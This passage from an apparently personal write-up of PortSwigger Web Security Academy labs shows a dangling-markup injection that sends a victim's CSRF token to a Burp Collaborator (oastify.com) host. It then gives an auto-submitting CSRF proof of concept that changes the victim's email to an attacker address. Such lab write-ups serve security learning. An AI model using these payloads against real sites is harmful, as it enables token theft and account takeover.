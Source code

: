 ```html
"></form><form class="login-form" name="evil-form" action="https://BURPID.oastify.com/token" method="GET"><button class="button" type="submit">Click Me</button>'
```

![](/assets/images/XSS/Pasted%20image%2020250728023123.png)

We will send this URL to the target user then. remember to remove id=wiener from the URL otherwise it won't work.

```html
<script>
location='https://0aa9000303071ad180c844c3009f0057.web-security-academy.net/my-account?&email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://kf34q7u0443cyc1m3246089wzn5et4ht.oastify.com/token%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3EClick%20Me%3C/button%3E'
</script>
```

As we can see, we get the target's CSRF token.

![](/assets/images/XSS/Pasted%20image%2020250728023723.png)

Next we can generate a CSRF PoC (Burp Pro feature) on the change-email request. 

![](/assets/images/XSS/Pasted%20image%2020250728023952.png)

We will copy this PoC.

![](/assets/images/XSS/Pasted%20image%2020250728024028.png)

We just need to replace the CSRF token and the value of the email field and send it to the target via the exploit server.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://LABID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil-user&#46;net" />
      <input type="hidden" name="csrf" value="OeyI3k22l5q7AQhX03Ath4sPWICXKQKr" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

### 30. Reflected XSS protected by CSP, with CSP bypass

Payloads that worked:
